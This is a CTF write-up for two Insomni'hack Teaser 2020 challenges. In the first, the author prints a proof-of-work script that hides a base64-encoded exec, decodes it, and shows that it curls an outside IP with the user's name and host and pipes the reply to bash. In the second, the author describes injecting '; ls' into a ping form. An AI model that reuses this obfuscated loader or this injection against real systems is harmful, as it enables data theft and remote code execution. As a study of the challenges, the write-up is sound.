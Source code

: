 # Insomni'hack Teaser 2020

This was an extremely difficult CTF (by my standards) with a weight of ```52.33``` so I was only able to do two trivial challenges [welcome](https://github.com/abhaynayar/ctf/blob/master/writeups/insomnihack20.md#welcome-36-pts) & [LowDeep](https://github.com/abhaynayar/ctf/blob/master/writeups/insomnihack20.md#lowdeep-36-pts) and scored a rank of ```114```. I was trying for ```Kaboom``` & ```secretus``` as well, but wasn't able to do much within the time frame, will upsolve and post them here when done.

## warmup

### welcome 36 pts.
>This year we added a Proof of Work to some of our challenges.
>
>Just run python pow.py <target>, were target is the value provided by the server and get the flag.
>
> ```nc welcome.insomnihack.ch 1337```

**pow.py**
```
#!/usr/bin/python3

import base64
import hashlib
import os
import sys 

target = sys.argv[1]
i = 0 

def pow():
    global i, target
    while True:
        m = hashlib.md5()
        m.update(str(i).encode())
        h = m.hexdigest()
        if h[:6] == target:
            exec(base64.b64decode('Z2xvYmFsIGk7aSs9MTMzNzt4PW9zLm5hbWU7eCs9Ii8kKHdob2FtaSlAJChob3N0bmFtZSl8YmFzaCJpZiB4IT0ibnQiZWxzZSIvJVVTRVJOQU1FJUAlVVNFUkRPTUFJTiUiO29zLnN5c3RlbSgiY3VybCAtTnMgMzQuNjUuMTg3LjE0MS8iK3gp'))
            print(i)
            exit(0)
        i += 1

if __name__ == '__main__':
    pow()
```

We see that there's a base64 encoded string which is being decode and executed.

```
$ echo Z2xvYmFsIGk7aSs9MTMzNzt4PW9zLm5hbWU7eCs9Ii8kKHdob2FtaSlAJChob3N0bmFtZSl8YmFzaCJpZiB4IT0ibnQiZWxzZSIvJVVTRVJOQU1FJUAlVVNFUkRPTUFJTiUiO29zLnN5c3RlbSgiY3VybCAtTnMgMzQuNjUuMTg3LjE0MS8iK3gp | base64 -d
global i;i+=1337;x=os.name;x+="/$(whoami)@$(hostname)|bash"if x!="nt"else"/%USERNAME%@%USERDOMAIN%";os.system("curl -Ns 34.65.187.141/"+x)
```

It sends our username and hostname to ```34.65.187.141``` and blocks us from getting the flag, even after getting the proof of work. So the solution is to simply comment out that line.

```
$ nc welcome.insomnihack.ch 1337

======================================================================
============   Welcome to the Insomni'Hack Teaser 2020!   ============
======================================================================

Give me an input whose md5sum starts with "f49122" and get the flag ;)
7319391

MITM are real: check SHA, check code, ...
```

```
$ python pow.py f49122
7319391
```

```INS{Miss me with that fhisy line}```

## web

### LowDeep 36 pts.

> Try out our new ping platform: lowdeep.insomnihack.ch/

The websites asks us to provide an IP address to ping. Instead of providing an IP address if we provide ```; ls``` we get the list of files in the current directory. One of the files is ```print-flag```.

![](lowdeep.png)

Downloading and running that file gives us the flag.

```
$ ./print-flag 
INS{Wh1le_ld_k1nd_0f_forg0t_ab0ut_th3_x_fl4g}
```
